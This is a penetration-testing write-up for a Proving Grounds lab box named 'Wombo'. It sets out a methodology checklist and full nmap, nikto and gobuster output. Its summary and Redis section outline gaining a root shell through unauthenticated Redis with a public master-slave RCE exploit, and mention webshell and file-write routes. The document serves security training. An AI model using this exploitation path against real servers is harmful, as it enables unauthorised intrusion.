

# Wombo

Quite an easy box actually.

1. Enumerate services
	1. Node BB is a rabbit hole
2. Redis allows for unauthenticated access
3. Use standard [Redis RCE exploit](https://github.com/Ridter/redis-rce) (Master - Slave) 
4. Root Shell


Other exploits
1. Redis allows for file write to modifiy the nginx web server


The rest of the contents below is me applying my methodology


## Plan
- [x] nmap simple scan
- [x] nmap full script scan
- [ ] nmap UDP scan?
- [x] nmap vuln scan

### 22 - SSH OpenSSH 7.4p1
Understand how it works & Interact  [x] `(I)`
- [ ] Find the Official Documentation
- [ ] Google

Custom ways of Exploitation
- [ ] Hacktricks

Search & Test for Vulnerabilities `(I)`
- [ ] Searchsploit
- [ ] Google
- [ ] More


### **80 - Web**
### Nginx
Understand how it works & Interact  [ ] `(I)`
- [ ] Find the Official Documentation
- [ ] Google

Custom ways of Exploitation
- [x] Hacktricks https://book.hacktricks.xyz/pentesting/pentesting-web/nginx
	- [ ] Path Traversal
	- [ ] 

Search & Test for Vulnerabilities `(I)`
- [ ] Searchsploit
- [ ] Google
- [ ] More

### Content
Source Code `E`
- [x] Find all the files, hidden or not (if possible)
	- [x] Dir Enumeration
- [x] Look through the source code of ALL the files
	- [x] Files
		- [x] `/` - Standard default page
    - [ ] Find all Input Fields `-> Input Fields`
    - [ ] File Uploads `-> File upload`

Directory Enumeration (dirb) `I -> Custom page/ CMS`
- [x] Sitemap (robots.txt) - Nonexistent
- [x] Common wordlist
- [x] big wordlist
- [ ] More

Virtual Hosts Testing `I`
- [ ] Given hostname
- [ ] Hostname derived from box name
- [ ] More

Vulnerability Scanning `I`
- [ ] Nikto Vulnerability Scanner
- [ ] More


### **8080 - Web**
**NodeBB**
Understand how it works & Interact  [x] `(I)`
- [x] Find the Official Documentation https://docs.nodebb.org/configuring/running/
- [ ] Google

Custom ways of Exploitation
- [ ] Hacktricks

Search & Test for Vulnerabilities `(I)`
- [ ] Searchsploit
- [ ] Google
- [ ] More

Source Code `E`
- [x] Find all the files, hidden or not (if possible)
	- [x] Dir Enumeration
- [ ] Look through the source code of ALL the files
	- [ ] Files
		- [ ] Index.html
		- [ ] Icons
    - [ ] Find all Input Fields `-> Input Fields`
    - [ ] File Uploads `-> File upload`

Directory Enumeration (dirb) `I -> Custom page/ CMS`
- [x] Sitemap (robots.txt) - Standard Pages
- [x] Common wordlist
- [x] big wordlist
- [ ] More

Virtual Hosts Testing `I`
- [ ] Given hostname
- [ ] Hostname derived from box name
- [ ] More

Vulnerability Scanning `I`
- [ ] Nikto Vulnerability Scanner
- [ ] More


### 6379 - Redis 5.0.9 exploit
Understand how it works & Interact  [ ] `(I)`
- [ ] Find the Official Documentation
- [ ] Google

Custom ways of Exploitation
- [x] Hacktricks https://book.hacktricks.xyz/pentesting/6379-pentesting-redis
	- [x] Reading Info - No Keyspace
	- [x] RCE
		- [x] WebShell
		- [ ] SSH - No idea of users
		- [x] Lua - Patched in this version
		- [ ] Master Slave - **Could Not Work at first, but looking closer it works by setting the port**
			- Used the hint on looking at the LPORT

Search & Test for Vulnerabilities `(I)`
- [ ] Searchsploit
- [ ] Google
- [ ] More


### 27017 - MongoDB
Understand how it works & Interact  [ ] `(I)`
- [ ] Find the Official Documentation
- [ ] Google

Custom ways of Exploitation
- [ ] Hacktricks

Search & Test for Vulnerabilities `(I)`
- [ ] Searchsploit
- [ ] Google
- [ ] More


## Nmap
### Port Scan 

```
┌──(kali㉿kali)-[/media/…/Penetration Testing Exercises/Offensive Security/Proving Ground Practices/Wombo]
└─$ nmap 192.168.70.69                                           
Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-13 10:52 EST
Nmap scan report for 192.168.70.69
Host is up (0.28s latency).
Not shown: 996 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
53/tcp   closed domain
80/tcp   open   http
8080/tcp open   http-proxy

Nmap done: 1 IP address (1 host up) scanned in 17.00 seconds
                                                                                                                                                                        
┌──(kali㉿kali)-[/media/…/Penetration Testing Exercises/Offensive Security/Proving Ground Practices/Wombo]
└─$ nmap 192.168.70.69 -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-13 10:53 EST

                                                                                                                                                                        
┌──(kali㉿kali)-[/media/…/Penetration Testing Exercises/Offensive Security/Proving Ground Practices/Wombo]
└─$ sudo nmap 192.168.70.69 -p-                                                                                                                                   130 ⨯
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-13 10:54 EST
Nmap scan report for 192.168.70.69
Host is up (0.27s latency).
Not shown: 65529 filtered ports
PORT      STATE  SERVICE
22/tcp    open   ssh
53/tcp    closed domain
80/tcp    open   http
6379/tcp  open   redis
8080/tcp  open   http-proxy
27017/tcp open   mongod

Nmap done: 1 IP address (1 host up) scanned in 389.13 seconds
                                                                                                                                                                        
┌──(kali㉿kali)-[/media/…/Penetration Testing Exercises/Offensive Security/Proving Ground Practices/Wombo]
└─$
```

### Script Scan
```
┌──(kali㉿kali)-[/media/…/Penetration Testing Exercises/Offensive Security/Proving Ground Practices/Wombo]
└─$ sudo nmap 192.168.70.69 -p22,53,80,6379,8080,27017 -sC
Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-13 11:06 EST
Nmap scan report for 192.168.70.69
Host is up (0.28s latency).

PORT      STATE  SERVICE
22/tcp    open   ssh
| ssh-hostkey: 
|   2048 09:80:39:ef:3f:61:a8:d9:e6:fb:04:94:23:c9:ef:a8 (RSA)
|   256 83:f8:6f:50:7a:62:05:aa:15:44:10:f5:4a:c2:f5:a6 (ECDSA)
|_  256 1e:2b:13:30:5c:f1:31:15:b4:e8:f3:d2:c4:e8:05:b5 (ED25519)
53/tcp    closed domain
80/tcp    open   http
|_http-title: Welcome to nginx!
6379/tcp  open   redis
8080/tcp  open   http-proxy
| http-robots.txt: 3 disallowed entries 
|_/admin/ /reset/ /compose
|_http-title: Home | NodeBB
27017/tcp open   mongodb
| mongodb-databases: 
|   errmsg = command listDatabases requires authentication
|   codeName = Unauthorized
|   code = 13
|_  ok = 0.0
| mongodb-info: 
|   MongoDB Build info
|     versionArray
|       2 = 18
|       1 = 0
|       0 = 4
|       3 = 0
|     gitVersion = 6883bdfb8b8cff32176b1fd176df04da9165fd67
|     version = 4.0.18
|     javascriptEngine = mozjs
|     maxBsonObjectSize = 16777216
|     debug = false
|     modules
|     openssl
|       compiled = OpenSSL 1.1.0l  10 Sep 2019
|       running = OpenSSL 1.1.0l  10 Sep 2019
|     storageEngines
|       2 = mmapv1
|       1 = ephemeralForTest
|       0 = devnull
|       3 = wiredTiger
|     sysInfo = deprecated
|     ok = 1.0
|     allocator = tcmalloc
|     buildEnvironment
|       linkflags = -pthread -Wl,-z,now -rdynamic -Wl,--fatal-warnings -fstack-protector-strong -fuse-ld=gold -Wl,--build-id -Wl,--hash-style=gnu -Wl,-z,noexecstack -Wl,--warn-execstack -Wl,-z,relro
|       cc = /opt/mongodbtoolchain/v2/bin/gcc: gcc (GCC) 5.4.0
|       cxxflags = -Woverloaded-virtual -Wno-maybe-uninitialized -std=c++14
|       target_arch = x86_64
|       cxx = /opt/mongodbtoolchain/v2/bin/g++: g++ (GCC) 5.4.0
|       distmod = debian92
|       distarch = x86_64
|       ccflags = -fno-omit-frame-pointer -fno-strict-aliasing -ggdb -pthread -Wall -Wsign-compare -Wno-unknown-pragmas -Winvalid-pch -Werror -O2 -Wno-unused-local-typedefs -Wno-unused-function -Wno-deprecated-declarations -Wno-unused-but-set-variable -Wno-missing-braces -fstack-protector-strong -fno-builtin-memcmp
|       target_os = linux
|     bits = 64
|   Server status
|     errmsg = command serverStatus requires authentication
|     codeName = Unauthorized
|     code = 13
|_    ok = 0.0

Nmap done: 1 IP address (1 host up) scanned in 25.87 seconds
                                                                                                                                                                        
┌──(kali㉿kali)-[/media/…/Penetration Testing Exercises/Offensive Security/Proving Ground Practices/Wombo]
└─$ 

```

```
# Nmap 7.91 scan initiated Thu Jan 13 11:28:58 2022 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN "/media/sf_Stuff1/Github/Solutions/Cyber Security/Penetration Testing Exercises/Offensive Security/Proving Ground Practices/Wombo/results/192.168.70.69/scans/_full_tcp_nmap.txt" -oX "/media/sf_Stuff1/Github/Solutions/Cyber Security/Penetration Testing Exercises/Offensive Security/Proving Ground Practices/Wombo/results/192.168.70.69/scans/xml/_full_tcp_nmap.xml" 192.168.70.69
Nmap scan report for 192.168.70.69
Host is up, received user-set (0.29s latency).
Scanned at 2022-01-13 11:28:58 EST for 543s
Not shown: 65529 filtered ports
Reason: 65529 no-responses
PORT      STATE  SERVICE    REASON         VERSION
22/tcp    open   ssh        syn-ack ttl 63 OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 09:80:39:ef:3f:61:a8:d9:e6:fb:04:94:23:c9:ef:a8 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGBXRhQCez7/IOdnHzLYdpVtWWRMN/7bUR/C3T/W6V9DwlKUS2AfdncLdLwqnx61jODFdXDrTdEdTAtK4MHuXt/UOLDXr1SOfUHYQbZd1rmpMaeB3qOKfoVP7NMp2Ga68kT/9NvBphakYXRWw4C7RS0N+4YWU/BjSyMTIdnhJX05lC5Uyljg7FliJ7d3J/CtF98I6Oo5u/Eb2/5BB45/1IuM6R7BGCDOpIs6po1FyEk8gFktbB+INGATdBPxvmAOX6G7m/R491a9/QtaF8wrgsjS3fQftoiW8vwcaom8Bmu94xZ9pZq0Dgt9VWQz241T5dGQrp57s6Djl/V83/qGFP
|   256 83:f8:6f:50:7a:62:05:aa:15:44:10:f5:4a:c2:f5:a6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLg0oQ1t4NCz+KWPtrCjgDf+qjW2Vb4oOc/eM21vT9rIPJa//rO0LFT8czDxcWFU9HMSEohfSm8emC4lShgGrY4=
|   256 1e:2b:13:30:5c:f1:31:15:b4:e8:f3:d2:c4:e8:05:b5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPS81xs7EU6k92rNFdmsDF7qcRDxDILJUeva18aKW1GV
53/tcp    closed domain     reset ttl 63
80/tcp    open   http       syn-ack ttl 63 nginx 1.10.3
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.10.3
|_http-title: Welcome to nginx!
6379/tcp  open   redis      syn-ack ttl 63 Redis key-value store 5.0.9
8080/tcp  open   http-proxy syn-ack ttl 63
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     X-DNS-Prefetch-Control: off
|     X-Frame-Options: SAMEORIGIN
|     X-Download-Options: noopen
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     Referrer-Policy: strict-origin-when-cross-origin
|     X-Powered-By: NodeBB
|     set-cookie: _csrf=vFV35miQFQewZP2a20QEmUeN; Path=/
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 11098
|     ETag: W/"2b5a-a+gjUTnHrmbpEJ0mOuz3dHtaAb4"
|     Vary: Accept-Encoding
|     Date: Thu, 13 Jan 2022 16:33:17 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en-GB" data-dir="ltr" style="direction: ltr;" >
|     <head>
|     <title>Not Found | NodeBB</title>
|     <meta name="viewport" content="width&#x3D;device-width, initial-scale&#x3D;1.0" />
|     <meta name="content-type" content="text/html; charset=UTF-8" />
|     <meta name="apple-mobile-web-app-capable" content="yes" />
|     <meta name="mobile-web-app-capable" content="yes" />
|     <meta property="og:site_n
|   GetRequest: 
|     HTTP/1.1 200 OK
|     X-DNS-Prefetch-Control: off
|     X-Frame-Options: SAMEORIGIN
|     X-Download-Options: noopen
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     Referrer-Policy: strict-origin-when-cross-origin
|     X-Powered-By: NodeBB
|     set-cookie: _csrf=0b73NLIw9rO7vx86ugf5xOWW; Path=/
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 18181
|     ETag: W/"4705-lrtbvj2GmNcdA1wWkGZ5kLJ/K1M"
|     Vary: Accept-Encoding
|     Date: Thu, 13 Jan 2022 16:33:15 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en-GB" data-dir="ltr" style="direction: ltr;" >
|     <head>
|     <title>Home | NodeBB</title>
|     <meta name="viewport" content="width&#x3D;device-width, initial-scale&#x3D;1.0" />
|     <meta name="content-type" content="text/html; charset=UTF-8" />
|     <meta name="apple-mobile-web-app-capable" content="yes" />
|     <meta name="mobile-web-app-capable" content="yes" />
|     <meta property="og:site_name" content
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     X-DNS-Prefetch-Control: off
|     X-Frame-Options: SAMEORIGIN
|     X-Download-Options: noopen
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     Referrer-Policy: strict-origin-when-cross-origin
|     X-Powered-By: NodeBB
|     Allow: GET,HEAD
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 8
|     ETag: W/"8-ZRAf8oNBS3Bjb/SU2GYZCmbtmXg"
|     Vary: Accept-Encoding
|     Date: Thu, 13 Jan 2022 16:33:16 GMT
|     Connection: close
|     GET,HEAD
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|_    Connection: close
|_http-favicon: Unknown favicon MD5: 152FF7D5AE5BDB84B33D4DCA31EB7CD3
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 3 disallowed entries 
|_/admin/ /reset/ /compose
|_http-title: Home | NodeBB
27017/tcp open   mongodb    syn-ack ttl 63 MongoDB
| fingerprint-strings: 
|   FourOhFourRequest, GetRequest, OfficeScan, apple-iphoto, docker, hazelcast-http, metasploit-msgrpc: 
|     HTTP/1.0 200 OK
|     Connection: close
|     Content-Type: text/plain
|     Content-Length: 85
|     looks like you are trying to access MongoDB over HTTP on the native driver port.
|   mongodb: 
|     errmsg
|     command serverStatus requires authentication
|     code
|     codeName
|_    Unauthorized
| mongodb-databases: 
|   ok = 0.0
|   codeName = Unauthorized
|   errmsg = command listDatabases requires authentication
|_  code = 13
| mongodb-info: 
|   MongoDB Build info
|     openssl
|       compiled = OpenSSL 1.1.0l  10 Sep 2019
|       running = OpenSSL 1.1.0l  10 Sep 2019
|     allocator = tcmalloc
|     modules
|     gitVersion = 6883bdfb8b8cff32176b1fd176df04da9165fd67
|     version = 4.0.18
|     sysInfo = deprecated
|     ok = 1.0
|     storageEngines
|       1 = ephemeralForTest
|       0 = devnull
|       3 = wiredTiger
|       2 = mmapv1
|     maxBsonObjectSize = 16777216
|     debug = false
|     bits = 64
|     javascriptEngine = mozjs
|     buildEnvironment
|       cxx = /opt/mongodbtoolchain/v2/bin/g++: g++ (GCC) 5.4.0
|       distarch = x86_64
|       ccflags = -fno-omit-frame-pointer -fno-strict-aliasing -ggdb -pthread -Wall -Wsign-compare -Wno-unknown-pragmas -Winvalid-pch -Werror -O2 -Wno-unused-local-typedefs -Wno-unused-function -Wno-deprecated-declarations -Wno-unused-but-set-variable -Wno-missing-braces -fstack-protector-strong -fno-builtin-memcmp
|       target_arch = x86_64
|       linkflags = -pthread -Wl,-z,now -rdynamic -Wl,--fatal-warnings -fstack-protector-strong -fuse-ld=gold -Wl,--build-id -Wl,--hash-style=gnu -Wl,-z,noexecstack -Wl,--warn-execstack -Wl,-z,relro
|       cxxflags = -Woverloaded-virtual -Wno-maybe-uninitialized -std=c++14
|       distmod = debian92
|       cc = /opt/mongodbtoolchain/v2/bin/gcc: gcc (GCC) 5.4.0
|       target_os = linux
|     versionArray
|       1 = 0
|       0 = 4
|       3 = 0
|       2 = 18
|   Server status
|     ok = 0.0
|     codeName = Unauthorized
|     errmsg = command serverStatus requires authentication
|_    code = 13
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.91%I=9%D=1/13%Time=61E05441%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,31C4,"HTTP/1\.1\x20200\x20OK\r\nX-DNS-Prefetch-Control:\x20off
SF:\r\nX-Frame-Options:\x20SAMEORIGIN\r\nX-Download-Options:\x20noopen\r\n
SF:X-Content-Type-Options:\x20nosniff\r\nX-XSS-Protection:\x201;\x20mode=b
SF:lock\r\nReferrer-Policy:\x20strict-origin-when-cross-origin\r\nX-Powere
SF:d-By:\x20NodeBB\r\nset-cookie:\x20_csrf=0b73NLIw9rO7vx86ugf5xOWW;\x20Pa
SF:th=/\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:
SF:\x2018181\r\nETag:\x20W/\"4705-lrtbvj2GmNcdA1wWkGZ5kLJ/K1M\"\r\nVary:\x
SF:20Accept-Encoding\r\nDate:\x20Thu,\x2013\x20Jan\x202022\x2016:33:15\x20
SF:GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\r\n<html\x20lang=
SF:\"en-GB\"\x20data-dir=\"ltr\"\x20style=\"direction:\x20ltr;\"\x20\x20>\
SF:r\n<head>\r\n\t<title>Home\x20\|\x20NodeBB</title>\r\n\t<meta\x20name=\
SF:"viewport\"\x20content=\"width&#x3D;device-width,\x20initial-scale&#x3D
SF:;1\.0\"\x20/>\n\t<meta\x20name=\"content-type\"\x20content=\"text/html;
SF:\x20charset=UTF-8\"\x20/>\n\t<meta\x20name=\"apple-mobile-web-app-capab
SF:le\"\x20content=\"yes\"\x20/>\n\t<meta\x20name=\"mobile-web-app-capable
SF:\"\x20content=\"yes\"\x20/>\n\t<meta\x20property=\"og:site_name\"\x20co
SF:ntent")%r(HTTPOptions,1BF,"HTTP/1\.1\x20200\x20OK\r\nX-DNS-Prefetch-Con
SF:trol:\x20off\r\nX-Frame-Options:\x20SAMEORIGIN\r\nX-Download-Options:\x
SF:20noopen\r\nX-Content-Type-Options:\x20nosniff\r\nX-XSS-Protection:\x20
SF:1;\x20mode=block\r\nReferrer-Policy:\x20strict-origin-when-cross-origin
SF:\r\nX-Powered-By:\x20NodeBB\r\nAllow:\x20GET,HEAD\r\nContent-Type:\x20t
SF:ext/html;\x20charset=utf-8\r\nContent-Length:\x208\r\nETag:\x20W/\"8-ZR
SF:Af8oNBS3Bjb/SU2GYZCmbtmXg\"\r\nVary:\x20Accept-Encoding\r\nDate:\x20Thu
SF:,\x2013\x20Jan\x202022\x2016:33:16\x20GMT\r\nConnection:\x20close\r\n\r
SF:\nGET,HEAD")%r(RTSPRequest,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCo
SF:nnection:\x20close\r\n\r\n")%r(FourOhFourRequest,2D42,"HTTP/1\.1\x20404
SF:\x20Not\x20Found\r\nX-DNS-Prefetch-Control:\x20off\r\nX-Frame-Options:\
SF:x20SAMEORIGIN\r\nX-Download-Options:\x20noopen\r\nX-Content-Type-Option
SF:s:\x20nosniff\r\nX-XSS-Protection:\x201;\x20mode=block\r\nReferrer-Poli
SF:cy:\x20strict-origin-when-cross-origin\r\nX-Powered-By:\x20NodeBB\r\nse
SF:t-cookie:\x20_csrf=vFV35miQFQewZP2a20QEmUeN;\x20Path=/\r\nContent-Type:
SF:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x2011098\r\nETag:\x2
SF:0W/\"2b5a-a\+gjUTnHrmbpEJ0mOuz3dHtaAb4\"\r\nVary:\x20Accept-Encoding\r\
SF:nDate:\x20Thu,\x2013\x20Jan\x202022\x2016:33:17\x20GMT\r\nConnection:\x
SF:20close\r\n\r\n<!DOCTYPE\x20html>\r\n<html\x20lang=\"en-GB\"\x20data-di
SF:r=\"ltr\"\x20style=\"direction:\x20ltr;\"\x20\x20>\r\n<head>\r\n\t<titl
SF:e>Not\x20Found\x20\|\x20NodeBB</title>\r\n\t<meta\x20name=\"viewport\"\
SF:x20content=\"width&#x3D;device-width,\x20initial-scale&#x3D;1\.0\"\x20/
SF:>\n\t<meta\x20name=\"content-type\"\x20content=\"text/html;\x20charset=
SF:UTF-8\"\x20/>\n\t<meta\x20name=\"apple-mobile-web-app-capable\"\x20cont
SF:ent=\"yes\"\x20/>\n\t<meta\x20name=\"mobile-web-app-capable\"\x20conten
SF:t=\"yes\"\x20/>\n\t<meta\x20property=\"og:site_n");
OS fingerprint not ideal because: Didn't receive UDP response. Please try again with -sSU
Aggressive OS guesses: Linux 3.11 - 4.1 (93%), Linux 4.4 (93%), Linux 3.16 (90%), Linux 3.13 (90%), Linux 3.10 - 3.16 (88%), Linux 2.6.32 (88%), Linux 3.2 - 3.8 (88%), Linux 3.8 (88%), WatchGuard Fireware 11.8 (88%), Kyocera CopyStar CS-2560 printer (87%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.91%E=4%D=1/13%OT=22%CT=53%CU=%PV=Y%DS=2%DC=T%G=N%TM=61E05569%P=x86_64-pc-linux-gnu)
SEQ(SP=105%GCD=1%ISR=109%TI=Z%II=I%TS=8)
OPS(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11NW7%O6=M506ST11)
WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)
ECN(R=Y%DF=Y%TG=40%W=7210%O=M506NNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
T5(R=Y%DF=Y%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=N)
T7(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=40%CD=S)

Uptime guess: 0.035 days (since Thu Jan 13 10:47:49 2022)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   294.39 ms 192.168.49.1
2   295.93 ms 192.168.70.69

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan 13 11:38:01 2022 -- 1 IP address (1 host up) scanned in 544.04 seconds

```

### Vuln Scan

```
┌──(kali㉿kali)-[/media/…/Penetration Testing Exercises/Offensive Security/Proving Ground Practices/Wombo]
└─$ sudo nmap 192.168.70.69 -p22,53,80,6379,8080,27017 --script vuln
Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-13 11:11 EST
Stats: 0:01:54 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.53% done; ETC: 11:13 (0:00:02 remaining)
Stats: 0:04:02 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.58% done; ETC: 11:15 (0:00:01 remaining)
Stats: 0:04:22 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.58% done; ETC: 11:16 (0:00:01 remaining)
Nmap scan report for 192.168.70.69
Host is up (0.27s latency).

PORT      STATE  SERVICE
22/tcp    open   ssh
53/tcp    closed domain
80/tcp    open   http
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-vuln-cve2011-3192: 
|   VULNERABLE:
|   Apache byterange filter DoS
|     State: VULNERABLE
|     IDs:  BID:49303  CVE:CVE-2011-3192
|       The Apache web server is vulnerable to a denial of service attack when numerous
|       overlapping byte ranges are requested.
|     Disclosure date: 2011-08-19
|     References:
|       https://www.securityfocus.com/bid/49303
|       https://www.tenable.com/plugins/nessus/55976
|       https://seclists.org/fulldisclosure/2011/Aug/175
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-3192
6379/tcp  open   redis
8080/tcp  open   http-proxy
| http-enum: 
|   /login/: Login page
|   /robots.txt: Robots file
|   /register/: Potentially interesting folder
|_  /top/: Potentially interesting folder
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
27017/tcp open   mongod

Nmap done: 1 IP address (1 host up) scanned in 752.82 seconds
                                                                                                                                                                        
┌──(kali㉿kali)-[/media/…/Penetration Testing Exercises/Offensive Security/Proving Ground Practices/Wombo]
└─$ 

```

## Enumeration

### 80 - Web

NGINX default page

```
WhatWeb report for http://192.168.70.69:80
Status    : 200 OK
Title     : Welcome to nginx!
IP        : 192.168.70.69
Country   : RESERVED, ZZ

Summary   : nginx[1.10.3], HTML5, HTTPServer[nginx/1.10.3]

Detected Plugins:
[ HTML5 ]
	HTML version 5, detected by the doctype declaration


[ HTTPServer ]
	HTTP server header string. This plugin also attempts to
	identify the operating system from the server header.

	String       : nginx/1.10.3 (from server string)

[ nginx ]
	Nginx (Engine-X) is a free, open-source, high-performance
	HTTP server and reverse proxy, as well as an IMAP/POP3
	proxy server.

	Version      : 1.10.3
	Website     : http://nginx.net/

HTTP Headers:
	HTTP/1.1 200 OK
	Server: nginx/1.10.3
	Date: Thu, 13 Jan 2022 16:31:00 GMT
	Content-Type: text/html
	Last-Modified: Fri, 24 Apr 2020 09:27:19 GMT
	Transfer-Encoding: chunked
	Connection: close
	ETag: W/"5ea2b0f7-264"
	Content-Encoding: gzip


```


### 8080 - Web 


##### Nikto

```
┌──(kali㉿kali)-[/media/…/Penetration Testing Exercises/Offensive Security/Proving Ground Practices/Wombo]
└─$ nikto -h 192.168.123.69                                                                                                                                       130 ⨯
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.123.69
+ Target Hostname:    192.168.123.69
+ Target Port:        80
+ Start Time:         2022-01-15 02:25:45 (GMT-5)
---------------------------------------------------------------------------
+ Server: nginx/1.10.3
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ 7915 requests: 0 error(s) and 3 item(s) reported on remote host
+ End Time:           2022-01-15 02:50:15 (GMT-5) (1470 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
                                                                                                                                                                        
┌──(kali㉿kali)-[/media/…/Penetration Testing Exercises/Offensive Security/Proving Ground Practices/Wombo]
└─$ 
```

#### gobuster

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.70.69:8080 -x html,php,js -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.70.69:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,php,js
[+] Timeout:                 10s
===============================================================
2022/01/13 11:01:57 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 302) [Size: 36] [--> /login?local=1]
/register             (Status: 200) [Size: 14357]                  
/login                (Status: 200) [Size: 11618]                  
/uploads              (Status: 302) [Size: 52] [--> /assets/uploads/?v=7sgruj70sic]
/api                  (Status: 200) [Size: 3255]                                   
/assets               (Status: 301) [Size: 179] [--> /assets/]                     
/Admin                (Status: 302) [Size: 36] [--> /login?local=1]                
/tags                 (Status: 302) [Size: 28] [--> /login]                        
/users                (Status: 302) [Size: 28] [--> /login]                        
/Login                (Status: 200) [Size: 11618]                                  
/recent               (Status: 200) [Size: 17544]                                  
/groups               (Status: 302) [Size: 28] [--> /login]                        
/ADMIN                (Status: 302) [Size: 36] [--> /login?local=1]                
/top                  (Status: 200) [Size: 18180]                                  
/Uploads              (Status: 302) [Size: 52] [--> /assets/uploads/?v=7sgruj70sic]
